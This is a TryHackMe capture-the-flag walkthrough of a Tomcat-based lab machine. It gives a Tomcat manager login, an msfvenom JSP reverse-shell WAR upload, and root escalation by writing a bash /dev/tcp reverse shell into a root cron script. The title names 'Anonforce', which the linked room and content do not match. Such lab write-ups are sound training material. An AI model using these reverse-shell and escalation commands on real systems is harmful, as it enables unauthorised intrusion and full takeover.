








# [Anonforce TryHackMe Writeup/Walkthrough][1]

boot2root machine for FIT and bsides guatemala CTF

#### Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -sC -Pn <IP>`

```
Starting Nmap 7.91 ( https://nmap.org )
Nmap scan report for 10.10.9.253
Host is up (0.067s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.22 seconds
```

Seems like we have server running on `port 8080`. The website has nothing interesting. So I ran `gobuster` scan.

Command -> `gobuster dir -u http://<IP>:8080 -w /usr/share/wordlists/dirb/common.txt -x txt,html,php`

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.198.171:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2021/05/16 16:48:41 Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]             
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/manager              (Status: 302) [Size: 0] [--> /manager/]     
===============================================================
2021/05/16 16:50:47 Finished
===============================================================
```

I checked `/manager` and `/host-manager` they both required password. On `/manager`, I tried `admin:admin`. It didn't work and gave me an error with some useful information.


> Seems like we have username and password.

Refresh the page and login using this credentials. BAAM! We have the access. Did some recon and found a useful article on [Ways to Exploit Tomcat Manager][3].

We can upload `war` shell and get the access. To create reverse shell, use `msfvenom`.

Command -> `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<YOUR_IP> LPORT=4444 -f war > shell.war`.



You we can upload this file into `WAR` section and deploy the file.




The page will reload and you will see the path for shell.



Start a listener using `netcat`. Command -> `nc -lvnp 4444`. Go to the site `http://<IP>:8080/shell`.

You will see a connection established.


> Now we have access as *tomcat*.

We can easily get the user flag from the home directory.


### Privilege Escalation

There is one more file `id.sh` in the user directory.



`id.sh` is running `id` command and writing the content in `test.txt`. The content of `test.txt` seems like `root` user's ID.

That means this file is running as `root` and fortunately we have write permissions to this file. We can simply edit this file and can get the root flag/access.

#### Method 1: Get Root Access

To get the root access. We can add one liner bash shell command. To do this -> `echo "bash -i >& /dev/tcp/<YOUR_IP/4445 0>&1" > id.sh`.

Also, start a listener -> `nc -lvnp 4445`. Wait for a while you will get the access. It may take sometime to get the connection depending on `cronjob` settings.

You know what to do next :stuck_out_tongue_winking_eye:

#### Method 2: Get Root Flag Directly

To get the root flag. We can simple type -> `echo "cat /root/root.txt > test.txt" > id.sh`. As we already know the location of the file. We can simply print the content of the file to the terminal and redirects the output to `test.txt` file.



Check the content of the `test.txt` file. If may take sometime.




[1]: https://tryhackme.com/room/bsidesgtthompson
[2]: https://www.hackhunt.in/search/label/Nmaps
[3]: https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/
